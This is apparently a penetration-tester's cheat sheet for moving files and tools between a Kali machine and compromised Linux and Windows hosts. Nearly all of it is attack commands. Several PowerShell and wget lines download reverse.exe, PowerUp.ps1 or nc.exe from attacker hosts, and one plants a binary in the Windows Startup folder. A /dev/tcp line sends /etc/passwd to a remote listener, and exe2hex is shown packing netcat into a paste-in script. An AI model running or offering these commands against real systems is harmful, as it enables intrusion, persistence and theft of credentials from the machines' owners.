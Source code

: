 # Tools & Files Transfer

In Kali, configure a Webserver

```jsx
python3 -m http.server 80
```

## **Download Files from Linux Machine**

***

Using Wget

```jsx
wget http://ip:80/file.txt
```

Using Curl

```jsx
curl http://ip:80/file.txt
```

## **Download Files from Windows Machine**

***

Using Wget

```jsx
wget <http://ip:80/nc.exe> -outfile nc.exe
```

Using PowerShell

```jsx
powershell "(New-Object System.Net.WebClient).DownloadFile('')"
```

Using PowerShell (with specified path)

```jsx
(New-Object System.Net.WebClient).DownloadFile("<http://10.10.10.10/PowerUp.ps1>", "C:\\\\Windows\\\\Temp\\\\PowerUp.ps1")
```

Using PowerShell (alternative syntax)

```jsx
powershell -c "(new-object System.Net.WebClient).DownloadFile('')"
```

Using PowerShell (with Invoke-WebRequest)

```jsx
powershell -c "Invoke-WebRequest -Uri '<http://192.168.119.212:8000/reverse.exe>' -OutFile 'C:\\\\xampp\\\\htdocs\\\\reverse.exe'"
```

Using PowerShell (copy to startup folder)

```jsx
Invoke-WebRequest "<http://10.10.10.10/binary.exe>" -OutFile "C:\\\\ProgramData\\\\Microsoft\\\\Windows\\\\Start Menu\\\\Programs\\\\StartUp\\\\binary.exe"
```

#### **Transfer Binaries to Windows with Exe2Hex:**

Locate the Binary in Kali

```jsx
locate nc.exe | grep binaries
```

Copy the Binary

```jsx
cp /usr/share/windows-resources/binaries/nc.exe .
```

Reduce File Size (Optional, using UPX)

```jsx
upx -9 nc.exe
```

Convert the Binary to a Windows Script

```jsx
exe2hex -x nc.exe -p nc.cmd head nc.cmd
```

Copy and Paste the Script to the Shell

Verify the Binary:

```jsx
nc -h
```

## **Transfer Files Over Network**

***

### **SSH**

Copy remote file to local

```jsx
scp user@192.168.1.1:passwords.txt /some/local/directory
```

Copy local file to remote host

```jsx
scp passwords.txt username@192.168.1.1:/some/remote/directory
```

### **/dev/tcp**

Send data to a remote machine (listener required on the specified port)

```jsx
cat /etc/passwd > /dev/tcp/192.168.1.1/8080
```

Receive the connection on Kali

```jsx
nc -nlvp 8080
```

### **SMB Server:**

Configure an SMB server in the same directory as the file

```jsx
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

Copy the file from the Windows machine

```jsx
copy $IP\\kali\\reverse.exe C:\\Users\\reverse.exe
```
